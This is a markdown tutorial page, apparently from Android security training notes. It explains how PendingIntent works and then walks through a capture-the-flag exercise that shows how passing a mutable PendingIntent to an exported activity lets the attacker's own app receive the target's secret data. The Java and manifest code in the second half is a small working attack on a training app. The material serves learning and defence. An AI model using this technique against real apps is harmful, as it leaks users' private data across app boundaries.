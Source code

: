 ```yaml
---
title: "Pending intents"
---
```


> **Note**: this section requires a full understanding of [Intent attack surface](intent attack surface.html).

## Introduction

Let's say we have two apps:

* **App A**:
    * This app has a special, private activity called SecondActivity.
    * In its `AndroidManifest.xml`, this activity is marked as `android:exported="false"`. This is very important. It means no other app on the phone is allowed to start this activity directly. It's for internal use only.
* **App B**:
    * This app allows a user to create a home screen widget.
    * The goal is for this widget, when tapped, to open the SecondActivity directly inside the app A.

**The Problem Without PendingIntent**

If App B tried to launch the diary entry screen directly, it would fail.

In App B's code:

```java
// THIS WILL FAIL
Intent intent = new Intent();
// Tries to explicitly name the private component in App A
intent.setComponent(new ComponentName("com.example.secure_diary", "com.example.secure_diary.SecondActivity"));
try {
    context.startActivity(intent);
} catch (SecurityException e) {
    // CRASH! Android system blocks this, saying App B does not
    // have permission to launch a non-exported activity in App A.
}
```

This is the Android security model working perfectly. App B shouldn't be able to force open private parts of App A.

**The Solution With PendingIntent**

**Step 1: App A (Secure Diary) Creates the "Key"**

App A must provide a way for App B to request a key. Let's imagine App A has a BroadcastReceiver that listens for a "key request" from App B. When App B sends this broadcast, App A runs the following code:

```java
// 1. Create the INTENT - The specific instruction.
//    This points to our OWN private activity.
Intent intent = new Intent();
intent.setComponent(new ComponentName(
                getPackageName(),
                SecondActivity.class.getCanonicalName()
        ));
intent.putExtra("entry_template", "Meeting Notes"); // We can even add extras!

// 2. Create the PENDINGINTENT
//    We wrap our private intent inside this special token.
PendingIntent pendingIntent = PendingIntent.getActivity(
    this,
    101, // A unique request code to identify this key
    intent,
    PendingIntent.FLAG_IMMUTABLE // ignore for now
);

// 3. Give the key to App B.
```

App A has now created a secure token. This `pendingIntent` object is a reference managed by the Android system itself. It contains the instruction to launch `SecondActivity`, but it can only be used to do that one thing.

**Step 2: App B (Shortcut Maker) Uses the "Key"**

App B receives this `pendingIntent` object from App A. Now, App B can attach this token to its widget. When the user taps the widget, App B simply tells the system: "Use this key."

```java
// Assume 'theKeyFromAppA' is the PendingIntent object we received.

// We don't say "startActivity", we just say "send the request".
theKeyFromAppA.send();
```

**What happens when .send() is called?**

1. App B calls `.send()` on the PendingIntent token.
2. The Android System intercepts this call.
3. The System inspects the token and sees, "Ah, this token was created by App A."
4. The System unwraps the token and finds the original Intent inside ("Launch SecondActivity").
5. The System now executes that Intent with the identity and permissions of App A.
6. Since App A is perfectly allowed to launch its own non-exported activity, the launch succeeds

# Vulnerabilities

## Share a mutable pending

Let's say that the app `io.hextree.attacksurface` has the following activity:

```xml
<activity
    android:name="io.hextree.attacksurface.activities.Flag22Activity"
    android:exported="true"/>
```

```java
public class Flag22Activity extends AppCompactActivity {
    public Flag22Activity() {...}

    @Override
    protected void onCreate(Bundle bundle) throws PendingIntent.CanceledException {
        super.onCreate(bundle);
        this.f182f = new LogHelper(this);
        PendingIntent pendingIntent = (PendingIntent) getIntent().getParcelableExtra("PENDING");
        if (pendingIntent != null) {
            try {
                Intent intent = new Intent();
                intent.getExtras();
                intent.putExtra("success", true);
                intent.putExtra("flag", this.f182f.appendLog(this.flag));
                pendingIntent.send(this, 0, intent);
                success(null, this);
            } catch (Exception e) {...}
        }
    }
}
```

Basically, it retrieves the `PendingIntent`, construct a new `Intent` and calls `pendingIntent.send()`. The key line happen when the app executes `pendingIntent.send()` because it's triggering the operation that the `PendingIntent` rapresents. Most importantly, the third argument (`Intent`) which is merged with the original intent created when the `PendingIntent` is made.

To obtain this flag, I created two activities:

```xml
<activity
    android:name=".SecondActivity"
    android:exported="false" />
<activity
    android:name=".MainActivity"
    android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.MAIN" />
        <category android:name="android.intent.category.LAUNCHER" />
    </intent-filter>
</activity>
```

In the `MainActivity`, we need to a `PendingIntent` that targets my own `SecondActivity`. One of the crucial point is to add the flag `PendingIntent.FLAG_MUTABLE` since the target app needs to be able to modify the `Intent`'s extras.

```java
Intent targetIntent = new Intent();
targetIntent.setComponent(new ComponentName(
        getPackageName(),
        SecondActivity.class.getCanonicalName()
));
PendingIntent pendingIntent = PendingIntent.getActivity(this,0,targetIntent, PendingIntent.FLAG_MUTABLE);

Intent intent = new Intent();
intent.setComponent(new ComponentName(
        "io.hextree.attacksurface",
        "io.hextree.attacksurface.activities.Flag22Activity"
));
intent.putExtra("PENDING", pendingIntent);
startActivity(intent);
```

`SecondActivity` code:

```java
Intent intent = getIntent();
String flag = intent.getStringExtra("flag");
Log.d("Flag", String.valueOf(flag));
```

